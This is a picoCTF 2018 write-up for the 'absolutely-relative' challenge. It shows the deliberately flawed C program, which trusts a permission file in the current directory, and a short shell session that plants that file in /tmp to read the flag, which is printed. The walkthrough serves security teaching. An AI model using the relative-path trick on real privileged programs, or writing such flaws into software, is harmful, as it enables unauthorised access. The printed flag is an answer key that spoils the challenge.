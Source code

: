 :checkered_flag: picoCTF{3v3r1ng_1$_r3l3t1v3_372b3859}

## Solve
In a filesystem, everything is relative ¯\_(ツ)_/¯. Can you find a way to get a flag from this [program](https://2018shell.picoctf.com/static/725b533a89a0e70b85b37ce2965da003/absolutely-relative)? You can find it in /problems/absolutely-relative_2_69862edfe341b57b6ed2c62c7107daee on the shell server. [Source](https://2018shell.picoctf.com/static/725b533a89a0e70b85b37ce2965da003/absolutely-relative.c).

## Hints
Do you have to run the program in the same directory? (⊙.☉)7

## Solution
```c
#include <stdio.h>
#include <string.h>

#define yes_len 3
const char *yes = "yes";

int main() {
  
    char flag[99];
    char permission[10];
    int i;
    FILE * file;

    file = fopen("/problems/absolutely-relative_2_69862edfe341b57b6ed2c62c7107daee/flag.txt" , "r");
    if (file) {
    	while (fscanf(file, "%s", flag)!=EOF)
    	fclose(file);
    }   
	
    file = fopen( "./permission.txt" , "r");
    if (file) {
    	  for (i = 0; i < 5; i++){
            fscanf(file, "%s", permission);
        }
        permission[5] = '\0';
        fclose(file);
    }
    
    if (!strncmp(permission, yes, yes_len)) {
        printf("You have the write permissions.\n%s\n", flag);
    } else {
        printf("You do not have sufficient permissions to view the flag.\n");
    }
    
    return 0;
}
```

```
shoulderhu@pico-2018-shell:~$ mkdir /tmp/shoulderhu
shoulderhu@pico-2018-shell:~$ cd /tmp/shoulderhu/
shoulderhu@pico-2018-shell:/tmp/shoulderhu$ echo "yes" > permission.txt
shoulderhu@pico-2018-shell:/tmp/shoulderhu$ /problems/absolutely-relative_2_69862edfe341b57b6ed2c62c7107daee/absolutely-relative 
You have the write permissions.
picoCTF{3v3r1ng_1$_r3l3t1v3_372b3859}
```
